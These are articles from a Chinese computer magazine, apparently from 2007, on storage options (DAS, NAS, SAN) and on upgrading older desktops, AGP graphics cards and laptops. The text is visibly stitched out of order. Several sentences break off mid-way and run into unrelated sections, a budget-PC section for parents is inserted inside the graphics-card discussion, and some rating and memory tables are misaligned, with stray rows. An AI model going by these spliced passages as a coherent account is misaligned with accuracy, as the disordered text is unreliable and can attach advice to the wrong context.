再次，在数据备份方面，光存储仍然是比较合理的选择。对于媒体中心而言，需要备份的数据不算太多，仅仅是保存一些具有收藏价值的多媒体文件，普通的DVD刻录机已经可以满足需求。不过我们也有更好的选择，比如SONY推出的VRD-MC3外置DVD刻录机十分适合媒体中心使用，它具有脱离PC直接进行数据刻录的功能，可以直接将DV、DC上的数据刻录成DVD影碟或是DVD相册模式；能够有效地减少PC应用负担，避免因处理大量数据而影响媒体中心的正常使用。

另外，随着数码相机、数字摄像机和HD DVD的广泛应用，获取数字内容也变得更加简单，需要进行音频、视频编辑的场合越来越多。尤其是在采集、编辑、制作这一过程中，系统内的硬盘容量将直接影响到用户的应用体验，尤其要注意选择一款超大容量内置硬盘。如果打算制作高质量的大容量视频，蓝光设备则是存储这些数据的理想选择。

##### 4. 共享备份：SOHO办公存储应用

SOHO办公主要是指小型办公环境，在这里，多台PC之间的数据传递、数据的分发、数据的同步，变得较为重要。在这种应用模式下，数据中心概念会慢慢浮现出来。在大型企业中，一般会有专门的文件服务器、邮件服务器、网络打印机等设备，但在小型SOHO办公环境中，这些设备显得复杂而且浪费较多的人力物力。因此，其主要需求应该是具有公用的数据存储、共享、备份机制。基于此，其典型解决方案为：具有文件共享功能的无线路由器+3.5英寸外置移动硬盘+外置DVD刻录机。

首先，在小型办公环境中，最常用的是文件存储和打印机共享等功能。
一般情况下，要实现这一功能，我们有以下选择。第一，搭建一台带有打印服务功能的文件服务器，但从技术资金投入角度来看，这是一项难以两全其美的选择。第二，选择具有打印服务共享功能的NAS。选择NAS时，对存储容量有较好的保证，通过Web界面的管理也比较简单，但缺点是需要较高的资金投入。第三种选择比较符合目前的实际情况，那就是使用支持USB存储和USB打印机的无线路由器。这方面，ASUS WL500g Premium就是不错的选择。它可以支持多USB设备，包括硬盘、打印机、摄像头等。给它配备上一个3.5英寸外置移动硬盘，即可实现NAS功能；而配合普通的USB打印机，就可以实现打印共享功能。同时，它的设置是标准的Web界面设置，使用起来也比较简单。虽然在性能上它无法与NAS或文件服务器相比，但对于小型工作环境来说，已经足以满足需求。这种方案可以说是兼顾了技术投入和资金投入的最佳选择。

其次，在灵活性较强的SOHO办公环境中，配备一块简单的2.5英寸移动硬盘，就可以保证数据的同步、备份，甚至是数据安全功能。
如果此款移动硬盘带有数据管理功能，那就锦上添花了。在这方面，比较好的产品有希捷公司的Free Agent Go和WD的Passport。这两款产品除了具有数据整理、备份、同步、恢复功能外，还具有基于硬盘的工作平台，WD Passport甚至还可以收发E-mail。这样，用户完全可以使用一块硬盘存储个人数据，在任何一台PC上均可完成需要做的工作，算得上是一种另类的移动办公形式。其中，希捷公司的Free Agent Go产品如图4所示。



## 二、专业应用：中小企业数据备份系统

随着企业业务数据的增加和应用对数据的依赖性增强，数据的有效汇集、集中和存储将成为企业面临的重要问题。

### 2007年热点技术与应用

##### 1. DAS(直接外挂存储)方案

企业建立初期，存储需求的规划比较简单，只需将相关数据安全保存并能够随时调用即可。在这种情况下，“DAS（Direct Attached Storage，直接外挂存储）”存储方式应用比较普遍。这种存储方案的服务器结构如同PC机架构，外部数据存储设备（如磁盘阵列、光盘机、磁带机等）都直接挂接在服务器内部总线上，数据存储设备是整个服务器结构的一部分，同样服务器也担负着整个网络的数据存储职责。DAS直连方式能够解决单台服务器的存储空间扩展、高性能传输需求。随着大容量硬盘的推出，单台外置存储系统容量还会上升。此外，DAS还可以构成基于磁盘阵列的双机高可用系统，满足数据存储对高可用的要求。从趋势上看，DAS仍然会作为一种存储模式，继续得到应用。

选用此方案的过程中，需要注意以下事项。使用DAS存储方案时，存储数据量越大，备份和恢复的时间就越长，对服务器硬件的依赖性和影响就越大。这种方案主要在早期的计算机和服务器上使用，由于当时对数据存储的需求并不大，单个服务器需要的存储能力就可以满足日常数据存储需求，因此在安全级别较低的网络应用中相当普遍。

##### 2. NAS(网络附加存储)方案

NAS（Network Attached Storage，网络附加存储）方式全面改进了DAS存储方式，在存储性能上有很大提高。它提供了一个简单、高性价比、高可用性、高扩展性和低总拥有成本（TCO）的网络存储解决方案，采用独立于PC服务器、单独为网络数据存储而开发的一种文件服务器。NAS服务器中集中连接了所有的网络数据存储设备（如各种磁盘阵列、磁带、光盘机等），存储容量可以较好地扩展，由于这种网络存储方式是NAS服务器独立承担的，所以对原来的网络服务器性能基本上没什么影响。

以下是一个标准NAS产品结构图，它将IBM NAS200、NAS300产品直接连在IP网中即可进行管理和使用，可支持多台服务器以文件的方式进行数据传输；支持系统的快速备份与恢复，可实现NAS本级的磁带备份功能。而且，系统极易扩展，通过增加路由设备即可与SAN网相联。如图5所示。



首先，NAS数据存储方案是基于局域网而设计的，按照传统的TCP/IP协议进行通信，面向消息传递，以文件的I/O方式进行数据传输。在局域网环境下，NAS已经完全可以实现异构平台之间的数据级共享，比如Windows、Linux、Unix等平台的共享。基于这些原因，NAS存储方案对于企业来说，使用和维护成本相当低，完全可以由现有网管员担当。

其次，NAS设备主要用来实现在不同操作系统平台下的文件共享应用，与传统的服务器或DAS存储设备相比，NAS设备的安装、调试、使用和管理非常简单，采用NAS可以节省一定的设备管理与维护费用。NAS设备提供了RJ-45接口和单独的IP地址，可以将其直接挂接在主干网的交换机或其他局域网的Hub上，通过简单的设置（如设置机器的IP地址等）就可以在网络即插即用使用NAS设备，而且进行网络数据在线扩容时也无须停顿，从而保证数据流畅存储。

因此，NAS作为一个网络附加存储设备，NAS设备内置优化的独立存储操作系统，可以有效、紧密地释放系统总线资源，全力支持I/O存储。同时，NAS设备一般集成本地的备份软件，可以不经过服务器将NAS设备中的重要数据进行本地备份。另外，NAS设备提供了硬盘RAID、富余的电源和风扇以及富余的控制器，可以满足保证NAS的稳定应用。

##### 3. SAN（存储域网络）方案

传统的C/S结构以主机系统为中心，系统相对独立，会产生“信息孤岛”的问题；而在以网络为中心的结构中，各种平台的系统依靠网络连接在一起，但还是分布式处理和管理的模式，并未根本解决信息孤岛的问题。在这种情况下，SAN技术方案开始浮出水面。SAN（Storage Area Network, 存储域网络）与NAS完全不同，它不是把所有的存储设备集中安装在一个专门的NAS服务器中，而是将这些存储设备单独通过光纤交换机连接起来，形成一个光纤通道的网络，其中起核心作用的是光纤交换机，它的支撑技术是Fibre Channel(FC, 光纤通道)协议，这是ANSI为网络和通道I/O接口建立的一个标准集成，支持HIPPI、IPI、SCSI、IP、ATM等多种高级协议。在对性能和可靠性要求较高的场合，采用先进的SAN数据存储网络，可以使数据的存储、备份等活动独立在原先的局域网之外，从而将减轻LAN的负载，保证原有网络应用的顺畅进行；同时SAN网采用光纤传输通道，可以得到高速的数据传输率。

在SAN中，数据以集中的方式进行存储，加强了数据的可管理性，同时适应于多操作系统下的数据共享同一存储池，降低了总成本。而且，SAN将企业的存储和服务器平台分开，可以实现24×7小时不间断的系统可用性和集中管理，在这个平台上，还可以应用一套统一的灾难恢复解决方案，从而经济高效地扩展存储环境。因此SAN非常适用于非线性编辑、服务器集群、远程灾难恢复、因特网数据服务等多个领域。

> 《小知识》NAS的特点是把文管系统集中在文件服务器上实现存储系统的统一管理并能够共享数据，但不能实现存储设备的共享和主机对存储设备的直接访问；SAN能够实现存储设备的共享和主机对存储设备的直接访问并具备较高的性能，却不能统一管理并共享数据。因此，可以考虑把NAS和SAN结合起来，使新的系统能最大限度地发挥它们各自的优势。目前，许多新型网络存储技术和产品都体现出NAS与SAN融合的精神，例如DAFS（Direct Access File System，直接访问文件系统）、OSD（Object-based Storage Devices，基于对象的存储设备）等。

通过上面的分析，可以看到DAS存储的最大弊病在于，各部分的存储资源相互隔离，容易形成孤岛。NAS具有无人值守、高度智能、性能稳定、功能专一的特点，但NAS技术不能满足可靠度为99.999%的数据存储系统的要求。而SAN的最大优势则在于，可以把异构环境下不同厂商的存储设备整合在一起，实现资源的共享，因此SAN将成为企业存储应用的主流。

# 更新换代 —— 2007年老电脑升级要点

◆文/方成亮

无论是以《PES2008》和《失落的星球》为代表的新游戏，还是逐步普及的Vista操作系统，我们都将因此而面临被迫的升级过程。自然界中的“优胜劣汰”运用到计算机中绝对是“新胜旧汰”，许多两年前购买的机器在目前看来简直可以进博物馆了，而那些半年前还令人沾沾自喜的“高档配置”转眼间就成了“昨日黄花”。面对这样的窘境，我们只有不断地升级，除非你不想领略计算机的最尖端技术。但是话说来容易，毕竟老百姓的钱是辛苦挣来的，因此我们必须把钱花在刀口上，升级同样也要强调性价比。

#### 一、升级侧重点分析：根据应用决定策略

升级PC总是一个让人感兴趣的话题，但是如何合理地升级更为重要。在部分情况下，现有的配置可能已经不适合进行升级，因为全面的升级甚至还不如直接购买新品。在升级之前，我们认为大家应该先关注一下当前主流市场产品的价格，然后结合实际情况进行取舍。

##### 1. 3D游戏发烧友

紧张刺激的3D游戏对于很多用户的诱惑力是毋庸置疑的，而同时这类应用对于硬件设备的要求也是相对较高的。首先需要明白的是，在大多数情况下，3D游戏无法流畅运行的原因并不是内存容量不够大，也不是通过升级某一款驱动程序所能解决的问题，CPU和显卡是最值得关注的两大因素。在3D游戏中，每一个场景的构筑都需要显卡极大的工作量，屏幕上每一个景物都是由显卡根据图形透视原理，通过多个三角形的组合形成的，显卡既要保证近大远小的透视效果，还要根据第一视角的位置实现遮挡效果，这里自然对显卡的性能有着很大的需求。不过，CPU作为整个系统的中枢神经也有极为重要的地位。CPU在3D游戏中所起的作用就是对三维场景进行设计，显卡生成的每一个点都是由CPU规定。此外，CPU还要负责诸如游戏数据处理等工作，负担丝毫不亚于显卡。毫无疑问，片面地强调CPU或者显卡的作用都是错误的，毕竟两者是不可分离的有机体。如图1，很适合升级用户使用的ATI Radeon 9550显卡。



笼统来看，我们可以将游戏分成四类：第一种是基本的2D游戏以及初级3D游戏（如帝国时代与最终幻想等移植游戏），第二种是中生代3D游戏（如CS、魔兽争霸3等），第三种新生代3D游戏（魔兽世界、极品飞车10、实况足球11等），第四种是发烧级3D游戏（FarCry、失落的星球、DOOM3等）。毫无疑问，以现今的眼光来看，第一类游戏对于CPU以及显卡的性能要求很低，就是几年前的主流配置都能轻松对应；相对而言，第二类游戏可能让部分三年前的主流配置有所力不从心，特别是一些采用整合主板的电脑，但是绝大部分老电脑还是能应付自如；而第三类和第四类游戏可谓是“硬件杀手”，对于包括CPU、显卡和内存在内的整机配置提出极高的要求，几乎一年前的主流配置都有升级的必要。明白了这一分类原则之后，或许大家应该对自己的升级方向有更为明确的认识。

升级要点：CPU与显卡
升级建议：保证CPU主频2GHz以上，更多的资金用于显卡

##### 2. 多媒体应用用户

对于多媒体应用而言，系统的内存容量、CPU性能以及磁盘速度有着较高的要求。相对而言，以音频处理为主的应用因为所处理的数据量不大，所以并不会对CPU提出很高的要求，反而需要高品质的声卡。然而视频处理可不是一盏省油的灯，传统的视频存储方式令数据量大得惊人，再高的CPU主频都不嫌为过。对于已经购买DV数码摄像机的用户而言，配置大容量内存以及高主频CPU极有必要，毕竟这是流畅视频采集的基本保障。值得注意的是，如今不少软件已经转向Windows XP平台，甚至少数软件只能运行在Vista上，这就对系统性能提出较高的要求。另外，磁盘系统也是值得关注的，包括容量与速度两个方面，在进行HDTV回放时，存储的数据量相当巨大，而且7200RPM的ATA100硬盘几乎是最基本的要求，不少两年前的配置都需要对磁盘系统进行全面升级。如图2，大容量高转速硬盘还是很有必要。

升级要点：CPU与磁盘系统
升级建议：保证系统均衡，消除性能瓶颈



##### 3. 平面图形处理与办公用户

对于平面办公用户而言，或许疯狂的3D速度以及高主频的CPU并不是必须的。相反，出色的2D画质、丰富的视频功能、大屏幕的显示器以及安静的工作环境才是最重要的。纵观如今的主流显卡市场，适合平面办公用户的产品确实不## 4. 3D图形设计用户

对于使用3DMAX、MAYA等软件的用户而言，选购显卡的策略应该与平面设计用户截然相反，因为此时速度问题成了关键。毫不夸张地说，3D设计用户对于像素填充率的需求比3D游戏发烧友更为迫切。

在3D图形市场当中，显卡的几何引擎性能通常都比着色性能来得重要。在执行建模、渲染等常规操作时，显卡所需要处理的数据量是相当惊人的。作为衡量几何引擎性能的指标，像素填充率主要由GPU主频、位宽与渲染管道数量决定。目前主流专业级3D设计显卡大多是由普通显卡演变而来的，如FireGL系列与Quadro FX系列，它们都有相对应的普通产品。出于市场策略的考虑，专业级3D设计显卡往往将一部分被屏蔽的功能完全打开，从而得以发挥更大的性能。如图3，具有完整OpenGL接口的专业显卡。

- 升级要点：购买支持完整OpenGL的专业级显卡
- 升级建议：针对CPU的投入可以更加坚定

#### 二、AGP显卡的理性升级

尽管PCI Express显卡大幅度降价已经让我们清醒地意识到AGP王朝的颠覆，然而我们又不得不承认的是，大多数准备升级的用户依然留守AGP平台。无论是nForce3、K8T800，还是I865PE等芯片组，其搭配的CPU都性能不俗。而在DOOM3、帝国时代III等新款游戏的冲击下，当年的老显卡往往已经显得廉颇老矣。好在nVIDIA和ATI也开始对AGP重新重视起来，而此时如何选择一款合适的AGP显卡进行升级就成为很多消费者关注的焦点。如图4，nForce3主板苦苦等待更高端的AGP显卡。

##### 1. 升级的抉择：如何搭配CPU与AGP显卡

对于3D游戏而言，CPU与GPU的因素是最为重要的。尽管内存、硬盘、芯片组等也会对3D游戏的速度产生一定的影响，但是它们还无法与CPU以及GPU的重要性相提并论。对于疯狂的3D游戏玩家，如何在有限的预算内升级自己的超级游戏平台就是十分关键的问题。我们必须在CPU与GPU之间合理分配才能取得最佳的效果。

毫无疑问，片面地强调CPU或者显卡的作用都是错误的，毕竟两者是不可分离的结合体。不过，CPU与显卡在具体的操作流程方面还是有所分工。一般而言，CPU可以保证3D游戏的速度，而对画质、3D特效等不能产生太大的影响。相反，GPU在各种环境下都要对速度与画质两个方面做出最大的贡献。此外，当我们在3D游戏中获得令人满意的速度之后，游戏中的画质就成为我们关注的内容。提高画质的途径主要有以下三种：

- 更高的画面分辨率与颜色数；
- 利用DirectX支持硬件级别的3D特效；
- 使用全屏抗锯齿与各项异性过滤技术。

相对而言，此时升级用户将更加依赖于显卡的性能。从理论上说，一旦游戏的分辨率或者颜色数提高，显卡的负担将呈几何倍速提高，对像素填充率与显存带宽提出极高的要求。而DirectX API硬件支持则完全依赖于显卡GPU本身的素质，如果你的显卡达不到这项要求，纵然CPU是Athlon 64也无济于事。至于全屏抗锯齿与各项异性过滤技术，目前几乎所有的主流显卡都可以支持，不过这项技术对于速度有很大的负面影响，因此显卡能否利用本身的技术特性来降低速度下降幅度就十分关键了。

###### （1）典型配置一：Athlon XP 1800+ + GeForce2 MX400

在后Pentium Ⅲ时代，Athlon XP在DIY用户中的普及度很高。不过如今整个平台已经显得略微低端，而且GeForce2 MX400无法支持任何Shader功能，在很多游戏中甚至无法运行。那么，此时应该如何升级才好呢？购买高端的AGP显卡是不是会形成性能瓶颈？对于这一问题，我们应该客观地分析。四管线显卡应该是低频Athlon XP最合适的搭配，如果强行使用GeForce 6600GT等八管线显卡，那么相对于四管线显卡的速度提升幅度并不大，因为此时CPU成为明显的瓶颈。在众多四管线显卡中，Radeon 9550以及GeForce 6600LE AGP都是不错的选择，此时可以让整个平台比较流畅地运行实况足球9等游戏，甚至帝国时代III等高端游戏也能通过适当降低画面特效来达到不错的速度表现。

###### （2）典型配置二：Pentium4 (NorthWood) + GeForce4 MX440

Pentium4 2.0A (NorthWood) 与GeForce4 MX440可谓最常见的低端配置组合，但是不可否认的是，这一类低端配置的性价比并不高。NorthWood核心的Pentium4性能还不错，不过GeForce4 MX440就明显无法应对最新的3D游戏。非常无奈的是，此时升级CPU并不现实，因为老主板无法兼容新核心。不过即便CPU不进行升级，也还是有升级显卡的必要，毕竟GeForce4 MX440无法支持Shader API，速度表现也不尽如人意。

## 二、疯狂股市疯狂电脑：献给老爸老妈的礼物

随着股市的疯狂，越来越多的中年父母也可望上网炒股，甚至和孩子们抢起了电脑。其实，我们完全可以利用这次升级的机会顺便打造第二台电脑，并且组成一个小型的家庭局域网，这样就能一家人轻轻松松地共享网络了。

目前3999元似乎是低价位电脑的底线，然而通过购买二手配件以及DIY方式，我们仅仅花费3000元不到也能买到适合自己的电脑，而且有望配备液晶显示器。目前主流市场对于低端产品的倾斜已经越来越明显，而且相应的配件依然有质保，因此丝毫不用担心出现“低价格低质量”的问题。

那么此时应该选择怎样的AGP显卡才合适呢？从我们的测试结果来看，GeForce 6800 AGP以上档次的产品并不合适，此时CPU会成为性能瓶颈。相反，选择X1600 AGP、X700 AGP、GeForce 6600档次的产品却相当不错。如果希望节省投资，也可以考虑Radeon 9800、GeForce 5900XT等产品。如图5，基于RV530核心的X1600 AGP有着不错的性价比。

###### （3）典型配置三：Barton 3200+ GeForce 5600

Barton 3200+的性能表现丝毫不亚于当前的高端配置，而同时代的GeForce 5600现在却显得有些落伍。由于GeForce 5600的管线数量有限，而且GPU主频较低，又缺少HDR和Shader Model 3.0等功能，因此其综合表现已经很难胜任当前的发烧级3D游戏。从我们的综合各方面的测试结果来看，即便是选择GeForce 7800GS档次的显卡，Barton 3200+也不会成为性能瓶颈。此外，如果升级到GeForce 6600GT或是X800档次的显卡，其性能也会有大幅度提高，因此Barton 3200+用户在升级AGP显卡时不必有丝毫的顾虑。

##### 1. CPU之选：放弃高主频的追求

如果电脑的功能用不上，那么即便再便宜也只能是一种浪费，沦为摆设。在很多人的电脑日常使用过程中，这种浪费现象并不少见。有些用户对于电脑的要求仅仅是上网、文字处理、多媒体教育，此时我们完全没有必要使用高档的CPU与显卡，因为低端产品也同样能够满足需求。另外一种浪费现象则更为常见。很多消费者在购买电脑时都追求最高的频率，以为这样便能得到最佳的性能。然而事实远非如此！以对3D游戏效果有着极高要求的用户为例，此时CPU的浮点性能至关重要。而在这方面，即便频率高出很多的CPU也不一定优秀。高价钱买回来的高频率CPU也许并不能发挥你所期望的性能，这好比你的一部分用在无用的东西上，这也是更大的浪费！

为此，我们建议大家选择Celeron D或是AMD闪龙处理器，此时整体性价比将会大幅度提高。如图6，很适合低价位装机的闪龙处理器。

电脑发展速度迅猛，DIY用户对新品的追求更加永无止境，在目前的应用环境下选择更适合的系统才是理智的选购行为。性价比永远是选购电脑的首要准则！部分读者可能会提出这样的观点：Celeron D或闪龙等低端配置很快就会被淘汰，这样岂不是更加浪费投资。其实这就是一种认识上的误区。事实上，在同一时期内的高低端配置之间的性能差距往往并不十分明显，至少不会出现无法运行某一代操作系统以及软件的情况。相对而言，在Vista操作系统时代彻底普及之前，这样的低端配置反而帮助大家在今后的升级时更加游刃有余，不会出现“高不成，低不就”的尴尬。

##### 2. 注意小节：外设暴利需谨防

由于CPU、内存、硬盘以及显卡等几大部件的品牌十分集中而且价格透明度较高，因此商家很难从中赚取大量的利润。为了最大化利润，很多商家自然将目光转向外设。说实在，目前对于电源的炒作很厉害，小小的一个整流器加变压器哪来那么多技术含量？加了几个高容量电容又有多少成本？所谓的静音型风扇也不外乎用大扇叶取代高转速。圈内人士都知道，目前的电源机箱存在暴利倾向。在这里只是要告诉大家，如果你仅仅是普通用户，并且不准备采用三个以上的IDE设备，那么就没有必要购买“高档电源”，但是份量极轻的劣质电源也不要购买。我建议大家选择120~170元左右的300W电源，且带有3C认证。如图7，电源选择不追求功率而追求稳定性。

至于鼠标和键盘可谓见仁见智了。选择微软、罗技等高端产品自然无可厚非，而且价格公开度较高，只要注意谨防水货即可。但是很多普通的低价位键盘和鼠标往往成为商家最大的利润来源。以普通的光电鼠标为例，成本大约20元左右，而很多装机商家往往开价100元，并用“光电”作为幌子。所以，如果没有特殊需求的话，低价的品牌鼠标键盘是我们的最佳选择。

##### 3. 配置分析：低端也有性价比

| 配件 | 型号 | 价格 |
|---|---|---|
| CPU | 闪龙2800+ | 200 |
| 主板 | DFI nForce4-4X | 250 |
| 显卡 | 盈通X800XL | 350 |
| 内存 | Kingston DDR400 512MB | 200 |
| 硬盘 | 希捷160GB SATA | 420 |
| 光驱 | 沿用老产品 | 0 |
| 机箱电源 | 普通套装 | 200 |
| 键盘鼠标 | 沿用老产品 | 0 |
| 显示器 | 沿用老产品 | 0 |
| 总价 | | 1620 |

考虑到炒股对于PC性能的要求其实并不高，因此我们可以在原来这台老电脑的基础上适当添加内存，并且购买一些外设，这样就能顺利让其继续为父母“服役”，作为炒股电脑自然是最为合适的。此外，出于节省资金的考虑，目前二手市场400元价位的CRT显示器已经

#### 四、2007年典型升级案例分析

##### 1. P4品牌机多媒体功能升级

首先让我们来看看具体的配置情况：

| 配置项 | 型号 |
| ---- | ---- |
| CPU | P4 1.8A |
| 主板 | I845G |
| 内存 | DDR266 256MB |
| 显卡 | 主板内置 |
| 硬盘 | 希捷60GB 5400RPM |
| 声卡 | 主板集成 |
| 光驱 | 16X DVDROM |
| 显示器 | 15寸LCD |
| 音箱 | 普通双声道塑料音箱 |

###### （1）配置分析

时隔几年，硬件设备确实经历了一场飞速发展。不过客观而言，相比各种多媒体设备的突飞猛进，硬件设备的进步速度相对缓慢。我们在此将涉及多媒体功能的升级，富有震撼力的音频效果、优美如画的纯净画面、互动的视频交流、便捷快速的网络、新奇好玩的数码外设，这些才是很多用户所追求的。

###### （2）升级方案

尽管Pentium4属于当年的高端产品，但是现在看来依然性能孱弱。更加糟糕的是，这款品牌机主板几乎没有超频功能，而且无法兼容LGA775处理器，这就让升级的成本大幅度提升。客观来看，指望不更换主板的升级方式是不现实的，否则达不到理想的升级效果。而为了控制成本，我们决定保留CPU，更换一款拥有AGP接口的主板并进行超频，然后使用独立显卡以提高整体性能。如图8，很适合Socket 478平台升级的I865PE主板。

Socket 478主板只能在二手市场寻找了，不过好在要买到一款出色的865PE主板并不难，价格约在200元左右。此外，AGP显卡可以考虑300元左右的GeForce 6600GT，再配合一条256MB内存组成双通道。如此一来，整个升级成本可以控制在600元以内，而且换下的老硬件还可以卖出，因此实际升级成本只有500元不到。至于显示器方面，考虑到大屏幕产品近期降价不断，而且15英寸LCD的表现还算不错，所以可以暂缓升级。等到24英寸宽屏降到2000元以内，再出手也绝对不迟。

效果分析：5星为满分

|  | 3D性能 | 磁盘速度 | 多媒体性能 | 大型软件运行效率 |
| ---- | ---- | ---- | ---- | ---- |
| 升级前 | ★★☆ | ★★☆ | ★★☆ | ★★☆ |
| 升级后 | ★★★ | ★★★ | ★★★ | ★★★ |
|  | ★☆ | ★☆ | ★☆ | ★☆ |

##### 2. Socket 939平台升级方案

首先让我们来看看具体的配置情况：

| 配置项 | 型号 |
| ---- | ---- |
| CPU | Athlon 64 3000+ 939 |
| 主板 | C51G |
| 内存 | DDR400 256MB×2 |
| 显卡 | 主板集成 |
| 硬盘 | 希捷80GB 7200RPM |
| 声卡 | 主板集成 |
| 光驱 | COMBO |
| 显示器 | 17英寸LCD |
| 音箱 | 普通双声道木制音箱 |

###### （1）配置分析

或许有人会说，这样2005年的主流配置都需要升级吗？但是，考虑到如今应用软件的快速发展，升级后还是会有明显的性能改善。以Athlon 64 3000+的性能来看，尽管其实际表现还是非常值得肯定的，但是缺少双核心令其在多线程操作方面的表现并不是很理想。此外，集成显卡以及存储单元则是明显的薄弱环节，而且17英寸LCD也让高要求的用户感到有些偏小。

###### （2）升级方案

其实，双核心不仅仅是最新的AM2平台，Socket 939也有双核心的Athlon 64 X2。以Athlon 64 X2 3800+为例，其价格约在550元左右。尽管这比Socket AM2的双核心CPU还要贵，但是毕竟物以稀为贵，升级用户也只能勉强接受。此外，内存的扩容应该更加理性一些。虽说K8M800 Pro主板拥有4个内存插槽，但是K8平台普遍对于4条内存无法很好地兼容。即便是一定要扩充到1GB，也建议把原有的两条256MB内存卖出，然后买入两条512MB的DDR400。至于显卡的选择，300元价位上的GeForce 7300GT以及X1650 Pro档次的产品是最合适的，而不用盲目跟风最新的产品线。如图9，Socket 939平台也能升级到双核心。

Socket 939平台也能升级到双核心。

效果分析：5星为满分

|  | 3D性能 | 磁盘速度 | 多媒体性能 | 大型软件运行效率 |
| ---- | ---- | ---- | ---- | ---- |
| 升级前 | ★★☆ | ★★☆ | ★★★ | ★★★ |
| 升级后 | ★★★ | ★★★ | ★★★★ | ★★★★ |
| ★☆ |  | ★ |  |

#### 五、笔记本电脑升级

笔记本电脑在设计时并未采用类似台式机那样的统一架构，因此这给用户在升级过程中带来很多不便。其实，笔记本电脑尽管升级困难，可并非不能升级。面对如今Windows Vista操作系统以及新款游戏的诱惑，不少用户都渴望将自己的老本本升级。针对一些两年前推出的第一代和第二代迅驰笔记本，现在可谓是比较理想的升级时机，因为相关的配件比较容易采购，而且升级后能够取得不错的效果。

##### 1. 迎接Vista时代：内存扩容

当我们迎来Windows Vista操作系统时代之后，内存容量变得更为重要。原本Windows XP的“256MB温饱线”已经成了过去时，因此扩容内存成为众多用户的升级首选。但是，如何选择最佳的平衡点以及为双通道和兼容性做好准备是值得仔细考虑的问题。

###### （1）本本内存扩容方案

事实上，增加笔记本内存不仅仅有利于运行Vista操作系统。提高内存容量以后，可以减少系统对硬盘的读写操作，也减少了硬盘对电池的消耗，延长了电池的使用时间，并且对减少笔记本硬盘的发热量和噪音也有帮助。此外，目前大多数笔记本所使用的显卡都是采用划分部分内存作为显存的工作方式，增加内存的容量还可以为显卡提供更多的内存来作为显存使用，从而提高显卡的性能，所以升级内存是我们提高笔记本电脑性能的最佳手段。

对于采用整合芯片组并且支持双通道内存技术的笔记本而言，激活双通道是必然的选择。由于集成显卡此时共享内存，因此双通道等效于显存带宽加倍，对于提高3D速度有着很大的帮助。从I915GM开始，所有的迅驰2笔记本都支持双通道内存，大家在扩容内存时自然不能放弃这一至关重要的技术。但是要提醒大家的是，使用双通道内存时最好选用相同品牌与型号的产品，甚至推荐专用的套装内存。如图10，部分笔记本在扩容内存后可以开启双通道。

如果当前只有256MB内存，那么另外添加相同品牌与型号的512MB内存是比较理想的选择，此时可以顺利运行Windows XP操作系统，Vista下也能取得不错的效果。但是，倘若笔记本已经是迅驰2平台，建议大家将256MB内存卖出，然后考虑购买2条512MB内存并开启双通道。对于已经拥有两条256MB内存的用户来说，其面临的选择是最为艰难的。由于内存插槽已经被用满，所以几乎无法升级。假如面对的一些应用程序或是操作系统明确要求1GB内存，那么可以考虑将2条256MB内存卖出，然后另外买入单条1GB内存。如图11，直接升级1GB的单条内存。

###### （2）安装笔记本内存

一般而言，笔记本内置两个内存插槽，因此只要打开了笔记本的盖板，那么升级内存简直是轻而易举的事情。唯一不同的是，笔记本内存往往不采用台式机主板上的内存扣，而是类似以往EDO内存的方式。将笔记本内存与插槽呈45度纵向相交，并对准内存金手指处的插槽，然后平行地插入即可。如图12，向右并向下旋转同时用力以插入内存。

在整个升级过程中，最关键的要点在于选择兼容性良好的产品，推荐Kingston或者Apacer等名牌产品，也可考虑一些名牌笔记本的拆机内存。另外需要提醒大家的是，笔记本内存的向下兼容性很不好，尽量采用相同标准的产品，不要将DDR333与DDR266产品混合使用。至于DDR2内存也是类似的情况，只不过有时DDR2 533能够与DDR2 667勉强混合，但并不保证百分百兼容。

如果是老式的PⅡ-M笔记本，那么升级内存时要格外小心。不同类型的内存是不可以乱插的，如果不小心把3.3v的SDRAM内存插入到5V的EDO内存插槽中，由于接口电压的不同会直接导致内存烧毁。此外，部分老式PⅢ-M笔记本对于内存Bank数存在限制，很可能无法识别256MB容量的单条PC100 SDRAM内存。

##### 2. 光驱与硬盘的升级

###### （1）光存储设备升级

笔记本的光存储设备升级相对容易，毕竟接口标准相对统一，大家只需购买标准接口的光驱设备即可，而至于究竟是DVD、COMBO还是DVD刻录机，这与兼容性都没有关系。倘若大家使用的是非标准接口的光驱，那么可以通过更换机芯来解决问题。笔记本光驱的机芯都是通用的，区别只是外壳和面板，所以如果光驱面板和外壳容易拆卸，大家可以买一个机芯然后更换。当然，唯一困扰大家的是到哪里购买光驱机芯，其实有条件的读者可以到二手市场寻觅一番，而且多数商家提供更换机芯的服务。

###### （2）硬盘升级

笔记本硬盘有四种规格：2.5英寸9.5mm、2.5英寸12.5mm、2.5英寸17.5mm和世界上最薄的1.8英寸硬盘。不过17.5mm和12.5mm笔记本硬盘从迅驰时代开始已经很少使用了，大家在升级过程中一般只会遇到2.5英寸9.5mm和1.8英寸笔记本硬盘。早期有些厂商在设计的时候没有很好地考虑与市场主流机型的通用性，只针对自己选用的硬盘设计硬盘组件，造成现在升级硬盘时标准硬盘不能正常安装。一般表现为固定螺钉钉位不一致。因此，在选购这样的非标准尺寸硬盘时，最好带着电脑去现场试一试。不过现在的笔记本已经不存在这样的问题，采用了笔记本托架，因为要把硬盘安装在托架上，而托架基本上是公版的设计，所以就不存在安装不上去的现象了。如图13，打开盖板后，更换笔记本硬盘非常方便。

##### 3. 脱胎换骨：升级本本CPU

CPU的高速发展对笔记本电脑的体积、散热、功能等限制无疑是一种挑战。作为笔记本电脑专用CPU，为了满足上述要求，也只好从封装来做文章了。一般而言，采用什么样的封装形式

###### 老本本扩容内存比例

一般而言，笔记本内存的容量应该与CPU频率以及操作系统相辅相成，这样才能达到最佳的性能组合，从而杜绝瓶颈效应。至于究竟应该升级到多少内存，大家可以参考下表：

| Windows 9X/Me | Windows 2000/XP | Windows Vista |
| :--- | :--- | :--- |
| PII-M 233MHz～PII-M 400 MHz | 64～128MB | 不建议安装 | 不建议安装 |
| PIII-M 400 MHz～PIII-M 650 MHz | 96～128MB | 192～256MB | 不建议安装 |
| PIII-M 700 MHz～PIII-M 1GHz | 128～256MB | 192～256MB | 不建议安装 |
| PIII 1GHz～C4-M | 不建议安装 | 256～384MB | 不建议安装 |
| 迅驰与P4-M | 不建议安装 | 256～512MB | 768MB以上 |

### 活用EXCEL函数 精确计算年龄

◆文/啄木鸟

通常情况下，计算一个人的年龄（周岁）是用当前的年份减去这个人的出生年份，但这样计算年龄误差是很大的，而有的时候对年龄的要求很严格，比如新生入学、新兵入伍、职工办理退休等，甚至差一天也不行，那么，怎样才能快速准确地得到一个人的确切年龄呢？本文就来探讨这个问题。

### 1.出生日期的转化

